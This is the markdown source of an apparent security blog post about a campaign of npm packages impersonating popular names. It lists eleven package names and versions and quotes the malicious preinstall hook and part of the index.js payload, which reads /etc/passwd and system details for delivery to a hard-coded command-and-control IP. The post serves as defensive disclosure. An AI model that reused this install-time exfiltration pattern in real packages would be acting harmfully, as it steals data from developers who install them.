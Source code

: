 ```yaml
---
publishDate: 2024-12-11T00:00:00Z
title: 'npm - The Playground for Malicious Packages'
image: /images/npm-the-malware-playground.png
excerpt: Multiple npm packages impersonating popular package names are being used to distribute malware. We take a closer look at the campaign.
tags:
  - npm
  - malware
---
```


Today our OSS package malware analysis bot picked up a new campaign targeting
developers using npm. The campaign involves publishing multiple npm packages
that impersonate popular package names. These packages are being used to
collect basic system information and the contents of `/etc/passwd` file from
the infected systems.

Our system picked up the following packages with very similar behaviour
matching common information gathering techniques:

| Package Name    | Version |
| --------------- | ------- |
| themes-vendor   | 0.0.1   |
| x509-escaping   | 0.0.1   |
| keycloak-server | 0.0.1   |
| module-stub     | 0.0.1   |
| keycloak-server | 0.0.3   |
| postject-copy   | 0.0.0   |
| micrometer-docs | 0.0.3   |
| orbit-playroom  | 0.0.0   |
| x509-escaping   | 0.0.0   |
| weekendfe       | 0.0.1   |
| themes-vendor   | 0.0.0   |

`npm` promptly removed these packages from the registry. This was possible
because no other package depended on these malicious packages. All packages
had a similar payload that was being executed when the package was installed.
For example, `themes-vendor` shipped a `package.json` file with the following

```json
{
  "name": "themes-vendor",
  "version": "0.0.1",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "preinstall": "node index.js"
  },
  "author": "",
  "license": "ISC"
}
```

The `preinstall` script in the `package.json` file executed the `index.js`
script which in turn executed the following code:

```javascript
// [...]
const apiHostname = '13.60.183.44';
const apiPort = 5000;
const apiPath = '/submit';

// [...]
let whoamiInfo = '';
try {
  // Execute the 'whoami' command and trim the output
  whoamiInfo = execSync('cat /etc/passwd', { encoding: 'utf-8' }).trim();
} catch (error) {
  whoamiInfo = `Error executing whoami: ${error.message}`;
}

// [...]
const deviceInfo = {
  platform: os.platform(),
  release: os.release(),
  hostname: os.hostname(),
  arch: os.arch(),
  userInfo: os.userInfo(),
  networkInterfaces: os.networkInterfaces(),
  whoamiinfo: whoamiInfo,
  user: 'themes-vendor',
};
```

The command and control IP `13.60.183.44` belongs to AWS which along with the
nature of the payload suggests that this campaign is a possible red-team or
security research activity.

```shell
NetRange:       13.60.0.0 - 13.63.255.255
CIDR:           13.60.0.0/14
NetName:        AMAZO-4
NetHandle:      NET-13-60-0-0-1
Parent:         NET13 (NET-13-0-0-0-0)
NetType:        Direct Allocation
OriginAS:
Organization:   Amazon.com, Inc. (AMAZO-4)
RegDate:        2022-10-11
Updated:        2022-10-11
Ref:            https://rdap.arin.net/registry/ip/13.60.0.0
```

## Conclusion

This campaign appears to be a playground for the attackers or possible
red-teamers to test their malware distribution techniques. While the payload
does not appear to be sophisticated or damaging, it still highlights the very
real threat of malicious packages impersonating popular package names.
